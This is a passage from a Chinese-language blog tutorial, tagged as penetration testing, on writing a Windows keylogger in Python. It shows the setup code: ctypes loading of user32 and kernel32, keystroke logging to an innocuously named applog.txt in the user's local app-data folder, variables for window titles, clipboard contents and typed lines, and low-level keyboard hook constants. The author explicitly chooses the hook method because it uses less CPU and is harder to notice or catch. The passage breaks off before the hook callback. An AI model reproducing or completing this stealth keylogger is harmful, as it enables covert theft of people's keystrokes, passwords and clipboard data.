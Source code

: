 ```yaml
---
title: 建立键盘记录器part2
description: 使用python编写键盘记录器.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


>part1使用while True死循环来时时监听用户敲击使得cpu占用率较高，容易被察觉。而part2则使用当用户敲击时触发来解决，且part2使用了`SetWindowsHookExa`在基于事情方法的性能要优于part1使用的`GetAsncKeyState`。

### 加载库，初始化变量

加载 `user32.dll` 和`kernel32.dll`，设置日志记录并创建变量以保存文本，窗口标题和按下的键。

```python
from ctypes import *
from ctypes.wintypes import DWORD, LPARAM, WPARAM, MSG
import logging
import os

logging.basicConfig(filename=(os.environ['localappdata'] +"\\" + 'applog.txt'), level=logging.DEBUG, format='%(message)s')

#加载所需库
user32 = windll.user32
kernel32 = windll.kernel32


current_window = None   # 窗口标题
current_clipboard = []  # 剪贴板内容
last_key = None         # 最后一个按键
line = ""               # 点击的键盘字符行
```

我们要利用钩子函数`SetWindowsHookExa`，`UnhookWindowsHookEx`和`CallNextHookEx`还需要一个类用作数据结构，以保存来自KBDLLHOOKSTRUCT结构的键盘输入事件中的数据。
我们先声明一些常量，以后调用WinAPI函数时使用。

```python
WH_KEYBOARD_LL = 13     # 键盘钩子用于SetWindowsExa
WM_KEYDOWN = 0x0100
HC_ACTION = 0
```

`SetWindowsHookExa`需要知道它必须设置什么类型的钩子，我们使用`WH_KEYBOARD_LL`( 用来对底层的键盘输入事件进行监视，[详情参见](https://docs.microsoft.com/zh-cn/windows/win32/winmsg/about-hooks?redirectedfrom=MSDN))因为它不需要在进程中注入DLL，较难捕获。`WM_KEYDOWN`告诉我们何时按下非系统键。`GC_ACTION`是传递给`KeyboardProc`回调函数的参数

### 使用虚拟键检测按下的特殊键
